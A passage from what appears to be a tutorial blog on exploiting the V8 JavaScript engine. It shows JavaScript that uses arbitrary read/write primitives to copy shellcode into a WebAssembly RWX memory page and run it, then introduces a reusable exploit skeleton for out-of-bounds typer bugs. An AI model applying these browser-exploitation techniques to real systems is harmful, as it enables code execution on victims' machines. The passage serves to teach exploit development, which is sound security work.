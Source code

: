 ```
// https://xz.aliyun.com/t/5003 (tested on ubuntu 20.04)
var shellcode=[0x90909090,0x90909090,0x782fb848,0x636c6163,0x48500000,0x73752fb8,0x69622f72,0x8948506e, 0xc03148e7,0x89485750,0xd23148e6,0x3ac0c748,0x50000030,0x4944b848,0x414c5053,0x48503d59,0x3148e289,0x485250c0,0xc748e289,0x00003bc0,0x050f00];

// get address of RWX memory
rwx_page_addr = arb_read(tagInt(addrOf(wasm_instance)) + WASM_PAGE_OFFSET);

// create dataview for easy memory writing
let buf = new ArrayBuffer(shellcode.length * 4);
let dataview = new DataView(buf);

// move dataview to RWX memory
let buf_addr = addrOf(buf);
let backing_store_addr = buf_addr + 0x14n;
arb_write(tagInt(backing_store_addr), rwx_page_addr);

// copy shellcode
for (let i = 0; i < shellcode.length; i++) {
	dataview.setUint32(4 * i, shellcode[i], true);
}
	
// jump to RWX memory
f();

// credit: https://abiondo.me/2019/01/02/exploiting-math-expm1-v8/
```

Our shellcode is written in 32-bit segments stored in an array. We use the arbitrary r/w primitives from earlier to write to the RWX page and then simply copy over the shellcode. Now when we call the WebAssembly function our shellcode will execute instead!

## Writing an Exploit

At this point we need to put all of our primitives together to create a skeleton for a typical exploit. This will include some helper functions, functions where we can create our primitives, baseline arrays, and the WASM component. You can follow along with my full example here: [exploit_skeleton.js](https://raw.githubusercontent.com/m4dSt4cks/m4dst4cks.github.io/master/exploits/exploit_skeleton.js)

The exploit skeleton that I have written is meant to take advantage of typer bugs that can get OOB accesses on an array. That being said, many of the primitives work exactly the same for map-confusion bugs. The skeleton requires finding a bug that can achieve this primitive, as well as the offsets required to overwrite the appropriate fields in our heap objects. This is best understood by looking at the example I wrote [here](https://m4dst4cks.github.io/blog/2020/11/20/Exploiting-Bug-1051017).

### Helper Functions

These helper functions show the basic usage of ArrayBuffers using typed arrays and how you can convert the same memory region between ints and floats. There are also several functions for dealing with 32-bit vs 64-bit data and other things for pointer compression. There are way more functions here than what you'll typically use, but they may come in handy.
